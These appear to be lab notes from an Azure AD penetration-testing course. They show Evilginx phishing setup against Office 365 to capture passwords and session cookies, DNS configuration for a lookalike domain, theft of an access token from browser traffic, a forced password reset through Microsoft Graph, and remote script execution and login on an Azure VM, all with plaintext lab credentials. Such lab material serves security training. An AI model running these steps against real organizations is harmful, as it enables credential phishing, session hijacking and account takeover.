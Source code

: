 # Phishing Evilginx2

* We can use Evilginx3 ([https://github.com/kgretzky/evilginx2](https://github.com/kgretzky/evilginx2)) for phishing attacks.
* Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.
* It uses phishlets that are configuration files for specific target domains. These are YAML files that specify conditions like hosts, filters, structure of authentication cookies and credentials.

```powershell
# Start evilginx3
C:\\AzAD\\Tools\\evilginx-v3.3.0\\evilginx -p C:\\AzAD\\Tools\\evilginx-v3.3.0\\phishlets -developer

# Configure the domain
config domain student43.corp

# Set the IP for the evilginx server 
config ipv4 external 172.16.150.43

# Use the template for Office 365
phishlets hostname o365 student43.corp

# Verify the DNS entries
phishlets get-hosts o365 
```

**Setup DNS**

> username: admin password: admin@123 link: [http://172.16.2.50:5380/](http://172.16.2.50:5380/)

1. Add a zone student43.corp
2. Point the `NS` value to 172.16.2.50
3. Add `A` records for login.

```powershell
phishlets enable o365

lures create o365

lures get-url 0

sessions
```

**Resetting password from the CLI**

1. Press F12 in the browser and click on Network tab. Make sure the ‘Preserver log’ checkbox is checked.
2. Go to Microsoft Entra ID (search in the search bar or use the top left burger menu).
3. In the ‘Filter’ field of network tab in the browser, search for ‘batch’ and copy the access token.
4. Now, connect to the tenant using Mg module with the token of Roy. Run the below command in a new PowerShell session:

```powershell
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
$params = @{
     passwordProfile = @{
         forceChangePasswordNextSignIn = $false
         password = "VM@Contributor@123@321"
     }
 }

Update-MgUser -UserId "VMContributor43@defcorphq.onmicrosoft.com" -BodyParameter $params
Disconnect-MgGraph
```

```powershell
Connect-AzAccount -TenantId 2d50cb29-5f7b-48a4-87ce-fe75a941adb6
Get-AzVM -Name jumpvm -ResourceGroupName RESEARCH | fl *
Get-AzVM -Name jumpvm -ResourceGroupName RESEARCH | select -ExpandProperty NetworkProfile
Get-AzNetworkInterface -Name jumpvm741
Get-AzPublicIpAddress -Name jumpvm-ip
Invoke-AzVMRunCommand -ScriptPath C:\\AzAD\\Tools\\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'jumpvm' -ResourceGroupName 'Research' –Verbose

$password = ConvertTo-SecureString 'Stud2802Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('student2802', $password)
$jumpvm = New-PSSession -ComputerName 51.116.180.87 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $jumpvm
```

